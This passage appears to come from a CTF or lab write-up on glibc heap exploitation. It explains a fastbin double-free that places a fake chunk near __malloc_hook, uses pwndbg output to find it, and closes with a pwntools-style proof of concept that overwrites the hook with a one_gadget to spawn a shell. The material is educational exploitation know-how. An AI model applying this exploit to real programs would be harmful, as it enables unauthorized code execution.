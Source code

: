 ## Code Execution

We can override `__free_hook` with `system` (or a one-gadget). \
The cool thing about free, is that its argument points toward the *user data* of a certain chunk. This allows us easy set of the ptr data to `/bin/sh`. 

However we must make sure we can bypass the `size` fastbins mitigation, so there should be some low-value (`0x20 - 0x80`)quadword somewhere surrounding the hook.

Thankfully, `pwndbg` have the special command - `find_fake_fast`, which can help locate fake chunks that qualify for the fastbins:

```bash
pwndbg> find_fake_fast &__malloc_hook
Searching for fastbin sizes up to 0x80 starting at 0x7ffff7dd0ad8 resulting in an overlap of 0x7ffff7dd0b50
FAKE CHUNKS
Fake chunk | PREV_INUSE | IS_MMAPED | NON_MAIN_ARENA
Addr: 0x7ffff7dd0b2d
prev_size: 0xfff7dccee0000000
size: 0x7f
fd: 0xfff7a9fa10000000
bk: 0xfff7a9fed000007f
fd_nextsize: 0x7f
bk_nextsize: 0x00
```

`pwndbg` is pretty awesome - it found a matching non-aligned chunk, that meets our needs. 

This chunk resides 35 bytes before our `__malloc_hook` symbol. 

Because the new chunk's size is `0x7f`, we would have to change our malloc requests so they will land at the `0x70` fastbin.

By executing `one_gadget`, we can find candidates to overwrite `__malloc_hook`.



Note: watch out for incompatible flags in the fake `size` fields. \
In case `NON_MAIN_ARENA` is set (1), along with `CHUNK_IS_MMAPPED` cleared (0), a segfault would generate - as malloc attempts to locate non-existent arena. 

Shell POC:

```c
# Set the username field.
username = b"Z" * 8 + b"1"
io.sendafter(b"username: ", username)
io.recvuntil(b"> ")

# Request two 0x30-sized chunks and fill them with data.
chunk_A = malloc(0x68, b"A"*0x68)
chunk_B = malloc(0x68, b"B"*0x68)

# Free the first chunk, then the second.
free(chunk_A)
free(chunk_B)
free(chunk_A)

# Will be allocated with chunk_A.
# First 8 bytes are the fd ptr, so we create a fake, controlled chunk at 'user' address
dup = malloc(0x68, p64(libc.sym.__malloc_hook - 35))


chunk_C = malloc(0x68, b"C"*0x68)
chunk_D = malloc(0x68, b"D"*0x68)

# Overwrite __malloc_hook with one gadget
exp_chunk = malloc(0x68, b"E"*19 + p64(libc.address + 0xe1fa1))
```